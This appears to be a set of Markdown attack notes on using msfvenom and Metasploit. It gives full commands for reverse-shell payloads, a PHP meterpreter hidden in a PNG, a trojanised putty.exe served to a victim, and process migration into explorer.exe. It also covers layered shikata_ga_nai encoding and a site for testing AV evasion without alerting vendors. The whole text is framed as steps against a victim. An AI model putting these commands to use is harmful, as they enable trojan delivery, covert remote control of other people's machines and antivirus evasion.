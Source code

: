 *--> Typical shellcode has a length of 300 to 400 Bytes*

## Example: Hide payload in benign file
- `msfvenom -p php/meterpreter/reverse_tcp lhost=IPv4 lport=8080 >> /home/Desktop/123.png`

## Example: Reverse Shell

**1. Kali**
- `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=IPv4 LPORT=443 -f exe -o payload`
   - for Android application: -f raw (because .apkis not available)
   - Optional: msfvenom --list formats (to check available formats)
   - Optional: msfvenom --list payloads (to check available payloads)

**2. Windows: Let victim download malware**

**3. Kali**
- msfconsole use exploit/multi/handler
- set payload windows/meterpreter_reverse_tcp
- set LHOST (Best Practice: 0.0.0.0 = accept connection on all IPs from anyone)
- set LPORT 443
- run

**4. Windows: Execute Malware**

**5. Kali: Meterpreter** 
- upload /usr/share/windows-binaries/nc.exe (upload further software on target)
- Info gathering on target: getuid, getprivs, getsystem
- Implement other extensions: load -l (Bsp: kiwi)

## Example: Putty-Trojan

- Carrier Application (CA): putty.exe 32Bit Binary File
- Wrapper: msfvenom (to combine payload and CA) 

1. `msfvenom -p windows/meterpreter_reverse_tcp LHOST=IPv4 LPORT=8080 -x /root/putty.exe -k -f exe -o /var/www/html/putty.exe`
   - x = Carrier Application
   - k = to execute both payload and carrier application 
2. Let victim download carrier application onto target system 
3. Kali: Meterpreter exploit/multi/handler 
4. Session starts/closes as soon as carrier application gets executed/closed
5. Attach your payload to another legitimate process to get independent of carrier application:
   - Example of legitimate process on Windows: explorer.exe 
   - Open terminal on Windows target system: `ps -S explorer`
   - remember PID 
6. Meterpreter: migrate [PID]

## Obfuscation Best Practice

1. Encoder: modify/rewrite binary
2. Packer: compression
3. Crypter: simple encryption
4. Wrapper/Embedder: hide payload inside legitimate program
5. Encryption (SSH, Ipsec, TLS)
6. Steganography
7. Covert Channel (misuse of legitimates channels)
8. Self written Payload has best stealth potential!

## Encoding

**Get an overview**
- `msfvenom -l encoders`

**Encoding Example #1**
- `msfvenom -p windows/meterpreter_reverse_tcp LHOST=IPv4 LPORT=8080 -a x86 --platform windows -e x86/shikata_ga_nai -i 130 -x /root/putty.exe -k -f exe -o /var/www/html/putty.exe`

**Encoding Example #2**
- `msfvenom -p windows/meterpreter_reverse_tcp LHOST=IPv4 LPORT=8080 -a x86 --platform windows -e x86/countdown -i 10 -x /root/putty.exe -k -f raw | msfvenom -a x86 --platform windows -e shikata_ga_nai -i 15 -f exe -o double-encoded-putty.exe`


## Check Payload Stealthiness

- [www.virustotal.com](www.virustotal.com)
    - more AV-filters in place but distribution of payload among AV-companies
- [nodistribute.com](www.nodistribute.com)
    - less AV-filters in place but no distribution of payload among AV-companies 
